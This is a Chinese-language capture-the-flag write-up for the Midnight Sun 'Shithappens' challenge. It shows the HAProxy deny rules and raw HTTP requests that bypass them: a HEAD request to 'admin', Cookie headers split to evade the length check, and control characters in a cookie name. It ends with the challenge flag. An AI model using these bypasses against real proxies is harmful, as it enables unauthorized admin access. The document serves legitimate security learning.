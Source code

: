 # Shithappens

這題後端套了一個 HAProxy，然後有一堆限制

例如 url 不能是 /admin 開頭、HTTP Method 不能是 POST

然後 cookie 長度要小於 69 之類的

具體規則如下:

```
global
  daemon
  log 127.0.0.1 local0 debug

defaults
  log               global
  retries           3
  maxconn           2000
  timeout connect   5s
  timeout client    50s
  timeout server    50s

resolvers docker_resolver
  nameserver dns 127.0.0.11:53

frontend internal_access
  bind 127.0.0.1:8080
  mode http
  use_backend test

frontend internet_access
  bind *:80
  errorfile 403 /etc/haproxy/errorfiles/403custom.http
  http-response set-header Server Server
  http-request deny if METH_POST
  http-request deny if { path_beg /admin }
  http-request deny if { cook(IMPERSONATE) -m found }
  http-request deny if { hdr_len(Cookie) gt 69 }
  mode http
  use_backend test

backend test
  balance roundrobin
  mode http
  server flaskapp app:8282 resolvers docker_resolver resolve-prefer ipv4
```

<br>

首先，繞 POST 限制很簡單

這個考點跟之前 GitHub Bug Bounty 的場景一樣，可以用 `HEAD` method 去做到 POST 的效果

而 `/admin` 限制可以用 `//admin` 或是 `admin` 之類的各種方法繞

最後發送以下 HEAD 請求:

```
HEAD admin HTTP/1.1
Host: shithappens-01.play.midnightsunctf.se
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------5164986806644135862031659149
Content-Length: 178
Referer: http://shithappens-01.play.midnightsunctf.se/
Connection: close, Cookie
Upgrade-Insecure-Requests: 1

-----------------------------5164986806644135862031659149
Content-Disposition: form-data; name="username"

admin
-----------------------------5164986806644135862031659149--
```

會拿到 admin 對應的 `IMPERSONATE` 和 `KEY` cookie

但是光是 `KEY` 的長度就快超過限制了

所以接下來要繞 cookie 長度限制

然後發現有 `/debug` 頁面，可以看到 flask 收到的請求細節

可以用這個來驗證我們的輸入最後會變啥樣

所以就自然而然地，發現可以用下面這種方式繞過長度限制:

```
Cookie: KEY=0be40039bcd8286eab237f481641b16e5e3ab442e0bc1135f08c143b22dc1efc;
cookie: ;IMPERSONATE=
cookie: admin
```

最後出來的 cookie 會變成:

```
{"KEY":"0be40039bcd8286eab237f481641b16e5e3ab442e0bc1135f08c143b22dc1efc", "IMPERSONATE":",admin"}
```

所以接下來要處理掉 IMPERSONATE 的那個 `,` 

但用力搞了一波都繞不過

最後是隊友fuzzing王靠 fuzzing 發現可以這樣繞過:

```
IMPERSONATE\x0b=admin

or

IMPERSONATE\x0c=admin
```

`midnight{hap_hap_h00r@y!!}`
